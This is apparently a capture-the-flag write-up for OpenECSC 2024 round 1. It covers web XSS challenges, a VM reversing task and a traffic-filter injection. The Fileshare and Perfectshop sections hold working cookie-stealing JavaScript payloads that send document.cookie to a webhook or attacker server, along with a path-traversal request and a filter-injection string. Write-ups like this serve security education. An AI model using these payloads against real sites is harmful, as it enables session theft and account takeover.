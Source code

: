 # OpenECSC 2024 round 1
https://github.com/ECSC2024/openECSC-2024 <br>
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)



# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://your-server.com"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```



<img src="cablefish_flag.png" alt="cablefish_flag.png" width="600"/>

